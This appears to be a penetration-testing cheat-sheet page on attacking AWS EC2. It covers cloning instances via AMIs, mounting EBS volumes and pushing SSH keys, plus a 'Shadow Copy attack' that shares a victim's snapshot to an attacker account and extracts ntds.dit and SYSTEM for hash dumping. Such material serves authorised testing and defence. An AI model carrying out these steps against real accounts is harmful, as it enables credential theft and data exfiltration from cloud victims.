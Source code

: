 # AWS - Service - EC2

* [dufflebag](https://labs.bishopfox.com/dufflebag) - Find secrets that are accidentally exposed via Amazon EBS's "public" mode


## Copy EC2 using AMI Image

First you need to extract data about the current instances and their AMI/security groups/subnet : `aws ec2 describe-images --region eu-west-1`

```powershell
# create a new image for the instance-id
$ aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
$ aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
$ aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```


## Mount EBS volume to EC2 Linux

:warning: EBS snapshots are block-level incremental, which means that every snapshot only copies the blocks (or areas) in the volume that had been changed since the last snapshot. To restore your data, you need to create a new EBS volume from one of your EBS snapshots. The new volume will be a duplicate of the initial EBS volume on which the snapshot was taken.

1. Head over to EC2 –> Volumes and create a new volume of your preferred size and type.
2. Select the created volume, right click and select the "attach volume" option.
3. Select the instance from the instance text box as shown below : `attach ebs volume`
    ```powershell
    aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
    aws ec2 attach-volume –-volume-id volume_id –-instance-id instance_id --device device
    ```
4. Now, login to your ec2 instance and list the available disks using the following command : `lsblk`
5. Check if the volume has any data using the following command : `sudo file -s /dev/xvdf`
6. Format the volume to ext4 filesystem  using the following command : `sudo mkfs -t ext4 /dev/xvdf`
7. Create a directory of your choice to mount our new ext4 volume. I am using the name “newvolume” : `sudo mkdir /newvolume`
8. Mount the volume to "newvolume" directory using the following command : `sudo mount /dev/xvdf /newvolume/`
9. cd into newvolume directory and check the disk space for confirming the volume mount : `cd /newvolume; df -h .`


## Shadow Copy attack

**Requirements**:

* EC2:CreateSnapshot
* [Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)

**Exploit**:

1. Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2. Run `"Describe-Instances"` and show in list for attacker to select
3. Run `"Create-Snapshot"` on volume of selected instance
4. Run `"modify-snapshot-attribute"` on new snapshot to set `"createVolumePermission"` to attacker AWS Account
5. Load AWS CLI with Attacker Credentials
6. Run `"run-instance"` command to create new linux ec2 with our stolen snapshot
7. Ssh run `"sudo mkdir /windows"`
8. Ssh run `"sudo mount /dev/xvdf1 /windows/"`
9. Ssh run `"sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"`
10. Ssh run `"sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"`
11. Ssh run `"sudo chown ec2-user:ec2-user /home/ec2-user/*"`
12. SFTP get `"/home/ec2-user/SYSTEM ./SYSTEM"`
13. SFTP get `"/home/ec2-user/ntds.dit ./ntds.dit"`
14. locally run `"secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets'`, expects secretsdump to be on path


## Instance Connect

Push an SSH key to EC2 instance

```powershell
# https://aws.amazon.com/fr/blogs/compute/new-using-amazon-ec2-instance-connect-for-ssh-access-to-your-ec2-instances/
$ aws ec2 describe-instances --profile uploadcreds --region eu-west-1 | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
$ aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE --availability-zone us-east-1d --instance-os-user ubuntu --ssh-public-key file://shortkey.pub --profile uploadcreds
```


## References

* [How to Attach and Mount an EBS volume to EC2 Linux Instance - AUGUST 17, 2016](https://devopscube.com/mount-ebs-volume-ec2-instance/)
